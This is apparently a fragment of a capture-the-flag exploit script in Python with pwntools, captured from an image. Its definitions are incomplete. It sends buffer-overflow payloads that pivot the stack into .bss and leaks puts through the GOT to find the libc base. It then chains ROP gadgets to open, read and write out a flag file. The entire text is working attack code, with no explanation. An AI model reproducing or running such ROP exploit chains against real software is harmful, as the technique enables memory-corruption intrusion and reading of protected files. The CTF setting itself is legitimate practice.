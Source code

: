 ```bash


pay=p64(bss+0x70)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
r.send(pay)

leak=u64(r.recv(6)+b'\x00'*2)
base=leak-libc.sym['puts']
print(hex(base))
pop_rdi = base + libc.search(asm('pop rdi;ret;')).__next__()
pop_rsi = base + libc.search(asm('pop rsi;ret;')).__next__()
pop_rdx12 = base + libc.search(asm('pop rdx;pop r12;ret;')).__next__()
read_addr = base + libc.sym['read']

r.recv()
pay=b'a'*0x60+p64(bss5)+p64(read)
r.send(pay)

pay=b'a'*0x60+p64(bss5+0x60)+p64(read)
r.send(pay)


pay=p64(bss5+0x70)+p64(rdi)+p64(0)+p64(rsi_r15)+p64(0x404900)+p64(0x40)+p64(base+libc.sym['read'])+p64(main)
r.send(pay)

sleep(0.1)
r.send("./flag")


r.recv()
pay=b'a'*0x60+p64(bss6)+p64(read)
r.send(pay)

pay=b'a'*0x60+p64(bss6+0x60)+p64(read)
r.send(pay)


pay=p64(bss6+0x70)+p64(rdi)+p64(0x2)+p64(rsi_r15)+p64(0x404900)+p64(0)+p64(base+libc.sym['syscall'])
pay+=p64(rdi)+p64(3)+p64(rsi_r15)+p64(0x404900)+p64(0x100)+p64(base+libc.sym['read'])+p64(main)
r.send(pay)

r.recv()
pay=b'a'*0x60+p64(bss7)+p64(read)
r.send(pay)

pay=b'a'*0x60+p64(bss7+0x60)+p64(read)
r.send(pay)

pay=p64(bss7+0x70)+p64(pop_rdi)+p64(1)+p64(rsi_r15)+p64(0x404900)+p64(0x100)+p64(base+libc.sym['write'])+p64(main)
r.send(pay)


r.interactive()
```
